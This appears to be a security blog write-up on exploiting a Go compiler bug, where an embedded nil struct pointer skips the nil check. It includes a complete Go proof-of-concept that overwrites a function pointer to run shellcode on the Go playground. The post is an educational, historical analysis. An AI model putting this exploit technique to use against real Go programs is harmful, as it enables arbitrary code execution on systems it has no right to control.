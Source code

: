```yaml
---
title: Exploiting a Go Binary
author: awreece
layout: post
categories:
  - Report
  - Write-Ups
tags:
  - go
  - golang
---
```

### Introduction

Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using [this issue][1]. geohot and I had a wager over who could get the first remote code execution on [play.golang.org][2]: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org][2] is properly sandboxed, so code execution there does not actually let you do anything. Had this been a more serious bug that could actually be used for anything malicious, we would have reported it and not used it as a CTF problem.

This post is cross posted on my personal blog, original post [there][3].

<!--more-->

### The Bug

Go has support for embedded structs. You can define an embedded struct as follows:

<pre>type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct</pre>

It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.

The [problem][1] comes when you try something slightly trickier:

<pre>type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct</pre>

When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler emits guard code which will cause a segfault if the pointer is nil. However, this code is not emitted when the pointer is the first element of the struct, since it&#8217;s assumed that this will cause a segfault whenever it is used anyway. This assumption is not always valid, as the pointer can be to a large struct such that the offsets of members of the large struct are valid addresses.

### The Vulnerability

We define an enormous struct and use it to offset memory:

<pre>type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct</pre>

Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.

### The Exploit

Once you have an arbitrary write in go, it is *really easy* to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn&#8217;t work on 64bit Go &#8211; apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has *no randomization* at all, this is as simple as running the program twice. Full exploit below:

<pre>package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &#038;shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of a Nested struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &#038;Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &#038;unused)
 fmt.Println("With this: ", &#038;shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &#038;s.payload, " with ", val_to_overwrite)

 *(&#038;s.payload) = val_to_overwrite;
 
 unused();
}}</pre>

### What Now?

Well, clearly this issue should be fixed. I also think it is important for Go to add the standard protections (ASLR, NX) &#8211; I posted [an article][4] earlier about security in Go where I strongly advocated those protections. If this language is to be taken seriously, it should really start worrying about making exploitation difficult.

*Edit:* this article was written a while ago. The the above exploit will not work because [Go 1.1 uses a non-executable heap and stack][5] (the vulnerability still gives an arbitrary read/write, but a little extra work is needed to complete the exploit). Good job go!

Writeup by Alex Reece, see me on [Google+][6] or my [blog][7]. geohot can be found on [his website][8].

 [1]: https://code.google.com/p/go/issues/detail?id=5336
 [2]: http://play.golang.org
 [3]: http://codearcana.com/posts/2013/04/23/exploiting-a-go-binary.html
 [4]: http://codearcana.com/posts/2012/05/06/securing-and-exploiting-go-binaries.html
 [5]: https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0
 [6]: https://plus.google.com/106589059588263736517?rel=author
 [7]: http://codearcana.com
 [8]: http://geohot.com